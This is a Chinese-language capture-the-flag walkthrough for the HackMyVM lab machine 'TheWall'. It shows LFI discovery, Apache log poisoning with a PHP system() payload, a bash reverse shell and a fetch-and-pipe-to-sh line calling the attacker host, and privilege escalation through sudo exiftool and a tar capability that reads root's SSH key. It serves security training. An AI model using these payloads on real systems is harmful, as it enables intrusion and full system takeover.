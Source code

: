 # TheWall

2025.02.14 https://hackmyvm.eu/machines/machine.php?vm=TheWall

[video](https://www.bilibili.com/video/BV1qXKLe5Eu1/?vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.38

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 首页没什么信息，gobuster 后出现大量 403，可能存在 WAF，必须降低请求速率，防止出现 403，先用一个小字典进行扫描，有点慢需要等待：

```
gobuster dir -t 10 -k -w ~/tools/dict/fileName5000.txt -u http://192.168.5.38/ -e -x php --delay 3000ms
ffuf -t 2 -ac -c -rate 10 -w ~/tools/dict/fileName5000.txt -u http://192.168.5.38/FUZZ -e '.php'
```

扫描出一个空白 php 文件：http://192.168.5.38/includes.php 看文件名像是有文件包含，需要爆破一下可能存在的参数，也是很慢：

```
ffuf -t 2 -ac -c -rate 10 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.5.38/includes.php?FUZZ=/etc/passwd
```

找到隐藏参数为 display_page:

```
curl http://192.168.5.38/includes.php?display_page=/etc/passwd
```

可以读取到 /etc/passwd 文件，在探测一下看看能读取到哪些系统文件：

```
ffuf -t 2 -ac -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.38/includes.php?display_page=FUZZ -fs 0
```

最终发现可以读取到 apache 的日志文件，这时可以实现注入 php 代码，然后获得反弹的 shell:

```
curl 'http://192.168.5.38/includes.php?display_page=/var/log/apache2/access.log'
```

kali 上监听 8888 端口，然后注入 php 代码：

```
curl -A '<?php echo 456; system($_GET[1]);?>' http://192.168.5.38/index.php
curl -G --data-urlencode 'display_page=/var/log/apache2/access.log' --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.38/includes.php
```

这时得到了反弹的链接，直接得到了 user flag:

```
www-data@TheWall:/home/john$ cat user.txt
cc5db5e7b0a26e807765f47a006f6221
```

sudo -l 发现 (john : john) NOPASSWD: /usr/bin/exiftool 可以使用这个 exiftoo 将私钥信息植入到 home/john/.ssh 中:

```
cd /tmp
ssh-keygen -t rsa -f ./id_rsa
sudo -u john exiftool -filename=/home/john/.ssh/authorized_keys ./id_rsa.pub
ssh -i id_rsa john@127.0.0.1
```

由于目标上没有 curl、wget、nc 等，使用下面的方法执行 peas：

```
kali上执行：
nc -q 3 -lvnp 8888 < ~/tools/scripts/lin/enum/peas.sh

目标机器上执行：
bash -c 'cat < /dev/tcp/192.168.5.3/8888 | sh'
```

发现 capabilities: /usr/sbin/tar cap_dac_read_search=ep 可以读取敏感文件，发现 / 中有 id_rsa 可能是 root 用户的，尝试读取：

```
tar -vcf /tmp/rsa.tar /id_rsa
cd /tmp
tar -xvf rsa.tar
ssh -i id_rsa root@127.0.0.1
```

登陆成功，得到了 root flag：

```
root@TheWall:~# cat r0Ot.txT
4be82a3be9aed6eea5d0cce68e17662e
```
